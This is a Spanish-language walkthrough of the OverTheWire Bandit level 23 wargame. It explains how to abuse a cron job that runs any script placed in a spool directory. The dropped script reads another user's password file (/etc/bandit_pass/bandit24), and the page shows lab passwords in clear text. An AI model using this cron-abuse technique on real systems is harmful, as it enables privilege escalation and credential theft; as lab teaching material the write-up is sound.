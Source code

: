 ```yaml
---
title: Bandit-23
published: true
---
```


## [](#header-1)Login

```bash
sshpass -p jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n \
ssh bandit23@bandit.labs.overthewire.org -p2220
```

## [](#header-1)Level Goal

```
A program is running automatically at regular intervals from cron,
the time-based job scheduler. Look in /etc/cron.d/ for the configuration
and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. 
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed,
so you may want to keep a copy around…

Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

Otro reto mas usando las tareas programadas de cron. Hacemos un cat al cron correspondiente:

```
cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Echamos un vistazo al script

```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 
```

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Como podemos ver, si detecta un fichero cuyo propietario es bandit23, realizará
un timeout y luego ejecutará el fichero. Podemos aprovecharlo para ejecutar un
comando en un script bash

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/gorry/pass_bandit24.txt
```

Hay que tener en cuenta:

1.- Que el fichero bandit24.sh tenga permisos de ejecución
2.- Que el directorio donde copiará la contraseña tenga permiso de escritura

Para ello ejecutamos los comandos:

```
chmod +x /tmp/gorry/bandit24.sh
chmod 777 /tmp/gorry
```

Copiamos el fichero bandit24.sh (con permisos de ejecución)

```
bandit23@bandit:/tmp/gorry$ cp bandit24.sh /var/spool/bandit24/
```

Esperamos y hacemos un ls

```
bandit23@bandit:/tmp/gorry$ ls -l
total 8
-rwxrwxrwx 1 bandit23 root     74 Apr 26 13:24 bandit24.sh
-rw-r--r-- 1 bandit24 bandit24 33 Apr 26 13:29 pass_bandit24.txt
```

Hacemos un cat y vemos la pass del siguiente nivel:

```
bandit23@bandit:/tmp/gorry$ cat pass_bandit24.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

[Volver al archivo](archive)
